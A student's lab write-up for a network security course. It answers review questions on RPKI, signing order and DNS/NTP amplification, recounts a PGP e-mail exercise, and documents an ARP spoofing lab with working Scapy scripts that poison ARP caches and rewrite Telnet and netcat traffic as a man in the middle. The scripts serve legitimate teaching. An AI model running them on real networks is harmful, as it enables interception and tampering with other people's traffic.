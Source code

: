 = Signed and Encrypted e-mail, and ARP Spoofing
Harsh Gaurang Kapadia <harshk@bu.edu>
:toc:					left
:favicon:				../../../../favicon.ico
:imagesdir:				./arp-spoofing
:docinfo:				shared
:sectanchors:
:figure-caption!:

== Review Questions

NOTE: link:./e-mail-arp.html[Assignment questions/instructions]

=== RPKI

RPKI consists of cryptographically signing the IP range of a particular Autonomous System (AS). Every AS creates a Route Authorization Object (ROA) which contains the AS Number (ASN), the IP range they can advertise and the extent to which the AS is allowed to announce more specific routes. This ROA is then signed by a chain of trust which includes IANA, the RIRs, ISPs and LSPs (Local Service Providers).

Any AS can advertise a particular IP prefix, but if their ROA is not valid, then the advertisement is dropped by other ASes. Advertisements can be valid only if the origin prefix advertising AS actually owns the IPs (which is validated by ROAs), because the RIRs and other authorities make sure that the prefix is allocated to that AS before signing the ROA. Thus, if a rogue AS advertises a prefix that doesn't belong to it or is more specific than it is allowed to advertise, then it won't have a valid ROA, which will make the other ASes drop that advertisement. This prevents Sub-Prefix Hijacking.

RPKI doesn't validate/authenticate the path taken by an advertisement. It only validates the IP prefix advertised by the origin AS. A rogue AS can use a valid ROA, add their AS Number to the path and advertise that, which makes the wrongly advertised path look like a shorter path to a few local ASes and they will divert traffic to it due to the shorter AS path length (the ROA in the two advertisements is the same, so the prefix specific rule will not apply). Thus, RPKI does not prevent the One-Hop Attack.

=== Encrypt and Sign vs Sign and Encrypt

Attacks possible when one encrypts and then signs:
The receiver of the ciphertext and signature can remove the signature, attach their own signature and then send the ciphertext and signature to someone else, claiming that the message came from them.

Attacks possible when one signs and then encrypts:
Once the receiver has decrypted the ciphertext, they can encrypt the decrypted message data and signature under another sender's public key and then send it to them, claiming that the original sender sent them a message to carry out a particular action.

=== Reflection Attacks

Reflection Attacks are more powerful than typical Denial of Service (DoS) Attacks as they make the use of another service in the middle to send out responses to the victim servers for them. This helps in two ways. Not only does it help in masking the real attacker's IP address, but it also helps in using more powerful machines which might have larger responses (targeted at the victim servers) than requests (Amplification Attack) and the attacker might not be able to generate a lot of responses of those sizes due to a limit in their bandwidth. Reflection attacks also help an attacker who does not have a lot of resources to attack servers by making use of exploitable services and protocols such as DNS and NTP.

Protocols like DNS and NTP have debug commands that generate responses that are larger than requests. This is an Amplification Attack. These protocols run on UDP (which can be spoofed easily) and also respond to anyone asking them for this information (no authentication). The attacker just has to spoof a lot of UDP packets with the source IP as the victim servers' IP addresses and the open DNS and NTP services will flood the victims with loads of huge responses, causing them to get overwhelmed.

== Signed and Encrypted e-mail

NOTE: link:./e-mail-arp.html[Assignment questions/instructions]

e-mail secret phrase: `lime hub stadium`

To start with sending an encrypted e-mail, I first decided upon a plan to send the e-mail. I decided that I would need two keypairs, one for someone to encrypt a message to me and one for me to sign messages to send to someone.

I then started learning about how I could go about encrypting and signing. I knew about OpenSSL and I had heard of PGP, so I first went and learnt about PGP, OpenPGP and GPG. I learnt about keypairs, how to generate secure keys, how to add images to keys, subkeys, key expirations and renewals, etc.

I was then confused between using OpenSSL and GPG, but after looking at the OpenSSL process, I went with GPG as it seemed simpler. I also decided to generate just one keypair for both encryption and signing, to make things simpler for me.

I generated a PGP keypair using GPG on the command line. I added link:https://cs-people.bu.edu/kaptchuk[Gabe^]'s public PGP key to my GPG command line tool. I then encrypted my message to Gabe using his public key and signed it using my key.

To send an e-mail to Gabe, I just pasted the ciphertext and my public PGP key in Gmail and sent it to him.

link:/cryptography#pgp[My learnings on PGP and the articles I went through.]

== ARP Spoofing

[NOTE]
====
* link:./e-mail-arp.html[Assignment questions/instructions]
* link:./arp-spoofing[All files]
====

* Machine A
    ** IP address: `10.9.0.5`
    ** MAC address: `02:42:0a:09:00:05`
* Machine B
	** IP address: `10.9.0.6`
    ** MAC address: `02:42:0a:09:00:06`
* Attacker machine M
    ** IP address: `10.9.0.105`
    ** MAC address: `02:42:0a:09:00:69`

=== Task 1

==== Task 1A

image::1/1a/1a.png[]

Machine A accepted the ARP request packet with B's IP address and M's MAC address.

Machine A accepted the ARP request packet because it was a packet destined to it and it needs to reply to the query, so it needs to store who asked the question, to be able to send the ARP reply to it.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "02:42:0a:09:00:05"

arp = ARP()
arp.op = 1 # ARP Request
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "02:42:0a:09:00:05"
arp.pdst = "10.9.0.5"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

==== Task 1B

image::1/1b/1b.png[]

Machine A did not accept the ARP reply packet with B's IP address and M's MAC address because it never sent an ARP request asking for B's MAC address.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "02:42:0a:09:00:05"

arp = ARP()
arp.op = 2 # ARP Reply
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "02:42:0a:09:00:05"
arp.pdst = "10.9.0.5"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

==== Task 1C

image::1/1c/1c.png[]

The first `arp -n` command is to showcase the mapping that already existed for machine B in machine A. The second command is after a Gratuitous ARP request was sent and it did update machine A, but due to the MAC values being the same, it was not easy to prove, so for the third command, the MAC value was tweaked in the Gratuitous ARP request packet for show purposes.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

ethernet = Ether()
ethernet.src = "02:42:0a:09:00:69"
ethernet.dst = "ff:ff:ff:ff:ff:ff"

arp = ARP()
arp.op = 1 # ARP Request
arp.hwsrc = "02:42:0a:09:00:69"
arp.psrc = "10.9.0.6"
arp.hwdst = "ff:ff:ff:ff:ff:ff"
arp.pdst = "10.9.0.6"

pkt = ethernet / arp
# print(pkt.show())

sendp(pkt)
----

=== Task 2 Telnet

==== Task 2.1

The following code block will send ARP requests to machines A and B from machine M every two seconds, to maintain the ARP Spoofing.

[source, python]
----
from scapy.all import *
import time

MAC_A = "02:42:0a:09:00:05"
IP_A = "10.9.0.5"
MAC_B = "02:42:0a:09:00:06"
IP_B = "10.9.0.6"
MAC_M = "02:42:0a:09:00:69"
IP_M = "10.9.0.105"

# Maps B's IP to M's MAC in A
def pkt_to_A():
    ethernet = Ether()
    ethernet.src = MAC_M
    ethernet.dst = MAC_A

    arp = ARP()
    arp.op = 1
    arp.hwsrc = MAC_M
    arp.psrc = IP_B
    arp.hwdst = MAC_A
    arp.pdst = IP_A

    pkt = ethernet / arp
    return pkt

# Maps A's IP to M's MAC in B
def pkt_to_B():
    ethernet = Ether()
    ethernet.src = MAC_M
    ethernet.dst = MAC_B

    arp = ARP()
    arp.op = 1
    arp.hwsrc = MAC_M
    arp.psrc = IP_A
    arp.hwdst = MAC_B
    arp.pdst = IP_B

    pkt = ethernet / arp
    return pkt

# Keep sending these packets to respective hosts to maintain ARP spoof
while(True):
    sendp(pkt_to_A())
    sendp(pkt_to_B())

    time.sleep(2)
----

==== Task 2.2

Both Machine A and B are able to ping each other, but have a very high (> 80%) packet loss.

Before understanding the reason, it is important to note that we have a script (link:#_task_2_1[Task 2.1]) that is maintaining the ARP Spoofing. Now, when the ping is issued, an ARP request is issued to find the MAC address of the receiving host to be able to deliver it packets, if the ARP cache of the sender doesn't already have the required MAC address. If the ARP spoof is maintained, then the issued ARP request reaches attacker machine M and does not get a reply (due to the stoppage in IP forwarding), leading to packet loss. But if the ARP cache of the sender expires, it broadcasts an ARP Request. If the script sending packets in the background is not fast enough, the actual receiver might reply and set the correct value in the ARP cache of the sender, leading to correct packet delivery to the receiver. The script is successful in maintaining the spoof for most of the communication duration, which is why there is a very high (> 80%) packet loss.

NOTE: link:./arp-spoofing/2/2.2/telnet-2.2.pcapng[Wireshark trace]

.Machine A
image::2/2.2/2.2-a.png[]

.Machine B
image::2/2.2/2.2-b.png[]

==== Task 2.3

Both Machine A and B are able to ping each other without any packet loss.

There is no packet loss because the attacker machine M acts as a IP forwarding machine due to the functionality being enabled. If the script (link:#_task_2_1[Task 2.1]) is not able to maintain the spoof, then the correct mapping is generated, which allows correct communication. So be it spoofing or not, the packet gets delivered. Only in the case of spoofing, the attacker machine M can snoop on user data.

NOTE: link:./arp-spoofing/2/2.3/telnet-2.3.pcapng[Wireshark trace]

.Machine A
image::2/2.3/2.3-a.png[]

.Machine B
image::2/2.3/2.3-b.png[]

==== Task 2.4

As seen in the Machine A image below, the connection is established with IP forwarding enabled on attacker machine M and a test command `whoami` is fired, which succeeds. Then, IP forwarding is disabled on machine M and the Python script (in code block below) to modify the data is started. Further communication is all modified, until the aforementioned script is stopped and the IP forwarding is enabled once again (the last `whoami` command).

.Machine A
image::2/2.4/2.4-1.png[]

image::2/2.4/2.4-2.png[]

.Attacker Machine M
image::2/2.4/2.4-3.png[]

Any data that is being sent from machines A to B is modified to `Z`, other than the <kbd>Enter</kbd> key (so that data can be sent to machine B), as shown in the code block below:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
IP_M = "10.9.0.105"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(frame):
    if frame[IP].src == IP_A and frame[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.

        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].payload)
        del(new_pkt[TCP].chksum)

        # Construct the new payload based on the old payload.
        if frame[TCP].payload:
            original_data = frame[TCP].payload.load

            if(original_data == b"\r\x00"): # The 'Enter' key
                send(new_pkt/original_data)
            else:
                original_data_len = len(original_data)

                new_data = ""
                for i in range(original_data_len):
                    new_data += "Z"

                send(new_pkt/new_data)
        else:
            send(new_pkt)

    elif frame[IP].src == IP_B and frame[IP].dst == IP_A:
        # Create new packet based on the captured one
        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].chksum)
        send(new_pkt)

def filter_frame(frame):
    if(IP in frame and frame.src != MAC_M):
        return True
    else:
        return False

frame = sniff(iface = "eth0", lfilter = filter_frame, prn = spoof_pkt)
----

=== Task 3 Netcat

==== Task 3.1

Same as link:#_task_2_1[Task 2.1].

==== Task 3.2

When IP forwarding is disabled on the attacker machine M, packets cannot make it through and the sender keeps sending packets to the receiver as it does not get any response. Once the IP forwarding is enabled, only then does the receiver receive the data and display it on its console, as seen in the Machine B image below.

NOTE: link:./arp-spoofing/3/3.2/netcat-3.2.pcapng[Wireshark trace]

.Machine A
image::3/3.2/3.2-a.png[]

.Machine B
image::3/3.2/3.2-b.png[]

==== Task 3.3

In this case data reaches machine B from machine A and vice versa. When IP forwarding is enabled on the attacker machine M, it just forwards whatever it receives from A to B and vice versa, acting as an intermediary.

NOTE: link:./arp-spoofing/3/3.3/netcat-3.3.pcapng[Wireshark trace]

.Machine A
image::3/3.3/3.3-a.png[]

.Machine B
image::3/3.3/3.3-b.png[]

==== Task 3.4

Any plaintext data can be modified in ARP Spoofing, so this is what is demonstrated here on the link:https://manpages.org/nc[Netcat protocol^].

When IP forwarding is disabled on attacker machine M and the modifying Python script (in code block below) is run, any data containing a specific string is replaced. This effect is removed only after the script is stopped (as seen in the last line of the output in the Machine B image).

.Machine A
image::3/3.4/3.4-1.png[]

.Machine B
image::3/3.4/3.4-2.png[]

.Attacker Machine M
image::3/3.4/3.4-3.png[]

If data that is being sent from machines A to B contains the string `Harsh Kapadia`, it is modified to `AAAAA AAAAAAA`, as shown in the code block below:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
IP_M = "10.9.0.105"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(frame):
    if frame[IP].src == IP_A and frame[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.

        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].payload)
        del(new_pkt[TCP].chksum)

        # Construct the new payload based on the old payload.
        if frame[TCP].payload:
            original_data = frame[TCP].payload.load

            if(b"Harsh Kapadia" in original_data):
                new_data = original_data.replace(b"Harsh Kapadia", b"AAAAA AAAAAAA")
                send(new_pkt/new_data)
            else:
                send(new_pkt/original_data)
        else:
            send(new_pkt)

    elif frame[IP].src == IP_B and frame[IP].dst == IP_A:
        # Create new packet based on the captured one
        new_pkt = IP(bytes(frame[IP]))
        del(new_pkt.chksum)
        del(new_pkt[TCP].chksum)
        send(new_pkt)

def filter_frame(frame):
    if(IP in frame and frame.src != MAC_M):
        return True
    else:
        return False

frame = sniff(iface = "eth0", lfilter = filter_frame, prn = spoof_pkt)
----
